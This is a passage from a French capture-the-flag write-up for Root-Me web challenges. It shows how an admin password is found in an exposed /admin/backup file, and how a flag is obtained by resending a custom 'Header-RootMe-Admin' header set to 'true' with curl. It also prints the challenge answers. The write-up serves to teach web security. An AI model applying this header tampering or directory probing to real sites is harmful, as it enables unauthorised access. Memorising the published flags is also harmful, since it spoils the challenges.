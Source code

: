 ```html
<!-- include("admin/pass.html") -->
```

On essaie d'y accéder mais c'est un piège ! On accède donc à la racine du dossier `/admin` où on voit un dossier `/backup`. On y trouve le fichier `admin.txt` avec le contenu suivant :

```
Password / Mot de passe : LINUX
```

Le flag est **LINUX**.

## 8. HTTP Headers

En accédant à la page du challenge, on observe le message suivant : `Content is not the only part of an HTTP response!`

On effectue une requête sur la page avec cURL et on obtient le résultat suivant :

```shell
nicolas@DESKTOP-JOGTTVS:/mnt/c/Users/Nicolas Law Yim Wan$ curl -v http://challenge01.root-me.org/web-serveur/ch5/
*   Trying 212.129.38.224...
* Connected to challenge01.root-me.org (212.129.38.224) port 80 (#0)
> GET /web-serveur/ch5/ HTTP/1.1
> Host: challenge01.root-me.org
> User-Agent: curl/7.47.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx
< Date: Thu, 19 Jul 2018 17:39:17 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Vary: Accept-Encoding
< Header-RootMe-Admin: none
<
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
</body>
</html>
* Connection #0 to host challenge01.root-me.org left intact
```

On remarque que le header `Header-RootMe-Admin` est passé à `none`. En effectuant la même requête avec le header passé à `true`, on obtient le flag:

```shell
nicolas@DESKTOP-JOGTTVS:/mnt/c/Users/Nicolas Law Yim Wan$ curl --header "Header-RootMe-Admin: true" http://challenge01.root-me.org/web-serveur/ch5/
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password HeadersMayBeUseful</p></body>
</html>
```
